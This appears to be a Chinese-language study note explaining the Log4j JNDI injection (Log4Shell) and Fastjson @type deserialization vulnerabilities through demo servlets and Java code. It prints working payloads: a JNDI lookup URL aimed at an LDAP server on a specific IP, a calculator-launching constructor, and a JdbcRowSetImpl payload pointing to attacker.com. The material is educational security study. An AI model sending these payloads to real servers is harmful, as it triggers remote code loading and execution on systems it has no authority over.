

## log4j

log4j是一个日志记录框架

maven导入：

```xml
 <dependencies>
        <dependency>
            <groupId>org.apache.logging.log4j</groupId>
            <artifactId>log4j-core</artifactId>
            <version>2.14.1</version>
        </dependency>
    </dependencies>
```


```java
public class Log4jTest {
    //使用log4j实现错误日志输出
    private static final Logger log = LogManager.getLogger(Log4jTest.class);

    public static void main(String[] args) {

        //如果code变量是可控的，那就可以执行命令
        String code = "${java:vm}";
        log.error("{}",code);
    }
}
```

输出：

```
15:57:44.994 [main] ERROR org.example.Log4jTest - Java HotSpot(TM) 64-Bit Server VM (build 25.201-b09, mixed mode)
```


对于web来说：

```java
@WebServlet("/log4j")
public class Log4jServlet extends HttpServlet {
    private static final Logger log = LogManager.getLogger(Log4jServlet.class);

    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        String code = req.getParameter("code");
        log.error("{}", code);
    }
}

```

访问：

```
http://localhost:8080/Log4jWeb_war_exploded/log4j?code=${java:vm}
```

实现一样的效果


RMI：远程方法调用

LDAP：


在云服务器上通过JNDIExploit工具生成一个弹计算器的可远程访问的调用方法，例如`ldap://47.94.236.117:1389/uyida`

然后在页面访问：

```
http://localhost:8080/Log4jWeb_war_exploded/log4j?code=${jndi:ldap://47.94.236.117:1389/uyida}
```

1、开发源码中引用漏洞组件如log4j

2、开发中使用出发漏洞的代码

3、可控变量去传递payload来实现攻击




## FastJson

```java
// 使用fastjson去处理User数据
public class FastjsonDemo {
    public static void main(String[] args) {
        //定义一个u对象
        User u = new User();
        u.setAge(30);
        u.setName("张三");
        System.out.println(u);
        // org.example.User@74a14482

        //普通的序列化：使用fastjson的toJSONString方法将User对象转为JSON字符串
        String jsonString = JSONObject.toJSONString(u);
        System.out.println(jsonString);
        // {"age":30,"name":"张三"}

        
        //WriteClassName特性会在JSON中加入@type字段，表示这个JSON反序列化后要还原成哪个类
        String jsonString1 = JSONObject.toJSONString(u, SerializerFeature.WriteClassName);
        System.out.println(jsonString1);
        // {"@type":"org.example.User","age":30,"name":"张三"}

        String test = "{\"@type\":\"org.example.User\",\"age\":30,\"name\":\"张三\"}";
        JSONObject jsonObject = JSON.parseObject(test);
        System.out.println(jsonObject);
        //{"name":"张三","age":30}
    }
}
```

Fastjson反序列化漏洞原理：如果使用了parseObject()且输入了包含@type的JSON，Fastjson会尝试通过反射加载这个类（上面的org.example.User）并**自动创建对象实例**。如果这个类有“危险的构造方法”或者“恶意类路径”，就可能触发代码执行。

如果我写一个类：

```java
public class RunDemo {
    public RunDemo() throws IOException {
        Runtime.getRuntime().exec("calc");
    }
}
```

然后通过这个去反序列化：

```
String test = "{\"@type\":\"org.example.RunDemo\",\"age\":30,\"name\":\"张三\"}";
JSONObject jsonObject = JSON.parseObject(test);
System.out.println(jsonObject);
```

就会弹出计算器


实战中，org.example.RunDemo我们是不知道的，所以用rmi ldap去触发远程的class


典型的攻击思路：

```
{
  "@type": "com.sun.rowset.JdbcRowSetImpl",
  "dataSourceName": "rmi://attacker.com/evil",
  "autoCommit": true
}
```

在 Fastjson（<1.2.68）中会实例化 `JdbcRowSetImpl` 并调用 `setDataSourceName()` 方法，触发 JNDI 远程加载，最终加载攻击者部署的远程类，执行恶意代码

